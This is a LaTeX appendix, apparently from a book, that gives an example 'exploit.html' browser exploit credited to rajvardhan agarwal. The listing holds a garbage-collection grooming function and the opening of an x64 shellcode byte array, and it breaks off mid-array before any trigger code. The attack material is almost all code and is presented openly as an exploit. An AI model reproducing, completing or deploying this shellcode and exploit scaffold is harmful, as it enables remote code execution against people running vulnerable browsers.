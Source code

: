 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
Example of a \lstinline|"exploit.html"| file:

\begin{lstlisting}

<script>
/*
BSD 2-Clause License
Copyright (c) 2021, rajvardhan agarwal
All rights reserved.
Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions 
are met:
1. Redistributions of source code must retain the above copyright 
   notice, this list of conditions and the following disclaimer.
2. Redistributions in binary form must reproduce the above copyright 
   notice, this list of conditions and the following disclaimer 
   in the documentation and/or other materials provided with the 
   distribution.
THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS 
"AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT 
LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS 
FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE 
COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, 
INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, 
BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; 
LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT 
LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN 
ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE 
POSSIBILITY OF SUCH DAMAGE.
*/
    function gc() {
        for (var i = 0; i < 0x80000; ++i) {
            var a = new ArrayBuffer();
        }
    }
    let shellcode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 
	0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
	0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 
	0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 
	0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 
	0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x3C, 0x61, 0x7C, 
	0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 
	0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 
	0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 
	0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 
	0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44, 0x8B, 
	0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 
	0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 
	0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 
	0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1, 0x4C, 
	0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 
	0x58, 0x44, 0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 

\end{lstlisting}
\end{appendices}
\end{document}
